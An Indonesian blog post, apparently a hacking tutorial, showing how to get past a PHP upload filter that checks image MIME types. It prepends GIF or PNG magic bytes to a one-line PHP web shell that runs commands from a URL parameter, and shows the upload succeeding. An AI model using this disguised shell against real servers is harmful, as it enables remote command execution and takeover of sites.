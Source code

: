 ```yaml
---
layout: post
title:  "Bypass MIME Upload Filter - Header Manipulation"
date:   2016-12-04 16:01:00 +0700
categories: bypass upload MIME filter extension
comments: false
---
```

 
Untuk melakukan upload filter yang dilakukan whitelist dalam bentuk MIME seperti muncul pada code PHP berikut :

```php
if($imageinfo['mime'] != 'image/gif' && 
   $imageinfo['mime'] != 'image/jpeg' && 
   $imageinfo['mime'] != 'image/jpg'&& 
   $imageinfo['mime'] != 'image/png') { die('Error 002'); }
```

disebutkan pada code tersebut bahwa hanya diperbolehkan untuk upload file yang dibatasi dengan MIME GIF, JPG dan PNG.
lalu bagaimana untuk bypass upload seperti ini.

cara mudahnya dengan cara menambahkan MIME tersebut pada shell yang akan di upload.

pada setiap **awal byte** file memiliki header sebagai identifikasi bahwa file tersebut memiliki content yang diikuti oleh headernya.
**first byte** ini biasa disebut MIME ( Multipurpose Internet Mail Extension ) pada kalangan internet, pada umumnya MIME disebut sebagai file file yang berekstensi yang dapat diikuti oleh format email yang meliputi standar email. MIME yang dimaksud disini adalah header yang berisikan informasi bahwa file tersebut adalah file berupa tipe apa dan menggunakan ekstensi apa. 

Maka dari itu artikel ini bertujuan utama untuk mengelabui fungsi utama dari php pada setiap kali mengirimkan file php akan mereturn beberapa data berupa array yang berisikan informasi mengenai file dari file size, file name, file extension dan juga file mime.

Setiap File memiliki **first byte** yang berbeda beda, berikut saya jelaskan beberapa **first byte** untuk file GIF, JPG dan PNG

GIF : pada first offset memiliki string **GIF89** atau 5 first byte nya **4749 4638 39**
![GIF first offest](http://k1m0ch1.github.io/images/first-byte-GIF.png)

PNG : pada first offset memiliki string **.PNG** atau 5 first byte nyte **8950 4e47 0d**
![PNG first offest](http://k1m0ch1.github.io/images/first-byte-png.png)

JPG : pada first offset memiliki string **JFIF** JPG memiliki null content sebanyak 6 byte, jadi first bytenya dimulai dari byte 7 **4a46 4946 00**
![JPG first offest](http://k1m0ch1.github.io/images/first-byte-JPG.png)

jadi first offset tersebut yang mengidtentifikasikan bahwa file tersebut tipe datanya seperti demikian.

lalu cara untuk bypass nya adalah cukup dengan membuat file *.gif atau tipe ekstensi yang di gunakan lalu dengan content file seperti berikut 

```python
GIF89

<?php echo shell_exec($_GET['cmd']); ?>
```

```python
.PNG

<?php echo shell_exec($_GET['cmd']); ?>
```

so lets try it

Upload File shell langsung

![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-1.png)

ternyata terdapat whitelist

![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-blocked.png)

lalu di coba upload file shell yang sudah diedit

![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-2.png)

pwnd

![trying to upload file shell](http://k1m0ch1.github.io/images/pwnd.png)